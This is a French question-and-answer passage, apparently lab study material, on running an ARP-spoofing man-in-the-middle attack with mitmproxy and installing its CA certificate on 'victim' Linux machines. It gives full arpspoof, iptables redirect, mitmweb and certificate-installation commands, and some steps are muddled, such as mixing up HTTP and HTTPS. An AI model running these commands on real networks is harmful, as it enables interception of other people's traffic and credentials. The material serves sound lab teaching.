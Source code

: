 
# **Question :** 

- Pourquoi est-il nécessaire d'installer les certificats `mitmproxy` sur les machines victimes lors d'une attaque Man-in-the-Middle, et quelles sont les étapes à suivre pour installer correctement ces certificats sur des machines Linux ?

**Réponse :**  
Il est nécessaire d'installer les certificats `mitmproxy` sur les machines victimes pour permettre à `mitmproxy` d'intercepter correctement les requêtes HTTP sans provoquer d'erreurs liées à la validation des certificats. Voici les étapes à suivre pour installer les certificats sur des machines Linux :

1. **Générer et exporter le certificat `mitmproxy`** sur la machine attaquante.
2. **Copier le certificat** sur les machines victimes en utilisant une commande comme `scp`.
3. **Installer le certificat** sur les machines victimes en le plaçant dans le répertoire des autorités de certification et en mettant à jour les certificats.
4. **Redémarrer les navigateurs** sur les machines victimes pour appliquer les nouveaux certificats.


- Les machines victimes doivent accepter les certificats générés par `mitmproxy` pour que les requêtes HTTP soient correctement interceptées et affichées sans erreurs.
- Voici les étapes pour installer les certificats `mitmproxy` sur les machines victimes :

### Étape 1 : Générer et Exporter le Certificat `mitmproxy`

1. **Sur la machine attaquante (`Attacker`)**, exécutez `mitmproxy` pour générer le certificat :
   ```sh
   sudo mitmweb -p 8080
   ```

2. **Téléchargez le certificat** :
   - Ouvrez un navigateur sur la machine attaquante et allez à `http://mitm.it`.
   - Téléchargez le certificat pour le système d'exploitation correspondant (par exemple, `mitmproxy-ca-cert.pem`).

### Étape 2 : Installer le Certificat sur les Machines Victimes

#### Pour les Machines Linux (Victim1 et Victim2)

1. **Copiez le certificat** sur les machines victimes. Vous pouvez utiliser `scp` pour copier le fichier :
   - Depuis la machine attaquante (`Attacker`), exécutez :
     ```sh
     scp /path/to/mitmproxy-ca-cert.pem victim1:/tmp/
     scp /path/to/mitmproxy-ca-cert.pem victim2:/tmp/
     ```

2. **Installer le certificat sur les machines victimes** :

   - **Victim1** :
     ```sh
     sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
     sudo update-ca-certificates
     ```

   - **Victim2** :
     ```sh
     sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
     sudo update-ca-certificates
     ```

3. **Redémarrez les navigateurs** sur les machines victimes pour que les nouveaux certificats soient pris en compte.

### Étape 3 : Vérification de la Configuration et du Trafic Intercepté

1. **Depuis les machines victimes (`Victim1` et `Victim2`)**, accédez à un site web en HTTP, par exemple `http://example.com` :
   - Ouvrez un navigateur et allez à `http://example.com`.

2. **Vérifier le trafic intercepté** :
   - Ouvrez l'interface web de `mitmweb` sur la machine attaquante à l'adresse `http://127.0.0.1:8081`.

### Exemple Complet de Commandes

```sh
# Machine Attaquant (Attacker)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo mitmweb -p 8080

# Machine Victime 1 (Victim1)
sudo nano /etc/netplan/00-installer-config.yaml
# Configurez les adresses IP et routes comme indiqué ci-dessus
sudo netplan apply
scp /path/to/mitmproxy-ca-cert.pem victim1:/tmp/
sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
sudo update-ca-certificates

# Machine Victime 2 (Victim2)
sudo nano /etc/netplan/00-installer-config.yaml
# Configurez les adresses IP et routes comme indiqué ci-dessus
sudo netplan apply
scp /path/to/mitmproxy-ca-cert.pem victim2:/tmp/
sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
sudo update-ca-certificates
```

En suivant ces étapes, vous devriez être en mesure de configurer correctement les certificats `mitmproxy` sur les machines victimes, ce qui permettra à `mitmproxy` d'intercepter correctement le trafic HTTP et d'afficher les requêtes sans erreurs de certificat.
